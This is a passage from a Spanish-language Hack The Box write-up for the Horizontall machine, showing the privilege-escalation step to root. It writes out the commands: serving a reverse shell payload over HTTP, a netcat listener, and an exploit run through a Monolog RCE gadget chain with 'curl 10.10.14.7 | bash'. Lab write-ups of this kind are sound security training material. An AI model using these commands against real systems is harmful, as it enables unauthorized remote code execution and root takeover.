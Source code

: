 Listo nos funciono ahora solo nos faltaria ejecutarnos una reverse shell para acceder como root y visualizar la flag.

Como ya tenemos una via potencial para mandarnos la reverse shell con el index.html que habiamos creado lo copiamos a este directorio.

```bash
cp ../index.html .
```

 

Luego montamos el servidor con python nuevamente.

```bash
python3 -m http.server 80
```

 

Nos ponemos en escucha con netcat.

```bash
nc -nlvp443
```

Y por ultimo ejecutamos el exploit.

```bash
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'curl 10.10.14.7 | bash'
```

![Hackforce-2022-12-12-03-44-27.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-03-44-27.png)

Listo con esto nos convertimos en root y podemos visualizar la flag.

Visualizamos la flag.
